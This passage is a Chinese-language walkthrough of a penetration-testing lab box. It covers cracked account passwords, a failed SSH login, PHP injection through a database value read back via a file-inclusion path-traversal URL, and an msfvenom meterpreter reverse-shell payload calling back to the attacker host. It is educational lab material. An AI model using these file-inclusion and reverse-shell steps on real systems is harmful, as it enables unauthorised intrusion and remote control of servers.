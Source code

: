 ![image-20210921112005691](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211120939.png)

> md5解密后成功获取两个账户：

- root   34kroot34
-  zico   zico2215@

## 尝试使用ssh登录

````
ssh root@192.168.100.153 
````

> - 两个账户都登录失败；

## 命令注入漏洞和文件包含漏洞的利用

> **原理**:**创建的数据库中表的内容的值可以通过文件包含解析成php**



创建一个数据库：xiao；创建一个表：xiu，1个字段信息；

![image-20210921113155682](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211131928.png)



![image-20210921113243593](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211132776.png)

## value写成phpinfo

```
'<?php phpinfo();?>'
```

![image-20210921113619439](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211136651.png)

## 通过文件包含访问数据库文件xiao

```
http://192.168.100.153/view.php?page=../../usr/databases/xiao
```

![image-20210921113831229](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109211138573.png)

## **同理在网站数据库中上传脚本文件获取目标靶机的shell**

创建一个数据库：shell；创建一个表：xiu，1个字段信息；

- msfvenom生成木马

```
sudo msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o  /var/www/html/xiao3
```
